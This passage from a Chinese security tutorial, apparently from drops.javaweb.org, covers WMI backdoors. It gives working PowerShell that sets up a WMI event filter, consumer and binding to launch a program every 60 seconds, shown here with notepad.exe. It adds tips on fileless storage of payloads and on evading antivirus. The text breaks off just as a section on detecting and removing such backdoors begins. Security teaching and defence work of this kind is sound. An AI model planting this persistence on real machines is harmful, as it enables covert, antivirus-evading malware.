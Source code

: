 如图

![enter image description here](http://drops.javaweb.org/uploads/images/c6f7794f4e94b2191220fcb4705cc4992b46df68.jpg)

**_Tips：_**

```
可加密存储于此位置，执行时解密运行，达到硬盘不存文件的效果

```

### 4、隐蔽定时启动程序

【管理员权限】

```
$filterName = 'BotFilter82'
$consumerName = 'BotConsumer23'
$exePath = 'C:\Windows\System32\notepad.exe'
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE
TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=

$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @

{Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exePath}
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=

$WMIEventFilter;Consumer=$WMIEventConsumer}

```

如图

![enter image description here](http://drops.javaweb.org/uploads/images/8f97895034152af18ef2e7a57f16b142c4a59adf.jpg)

每60s执行一次notepad.exe

**_Tips:_**

```
之前在Stuxnet上面就使用了这个后门，通过mof实现
至今该后门方法...还有很多人在用
杀毒软件对此行为也不会查杀...

```

0x04 WMI后门检测及清除 ：
=================

### 1、查看当前WMI Event
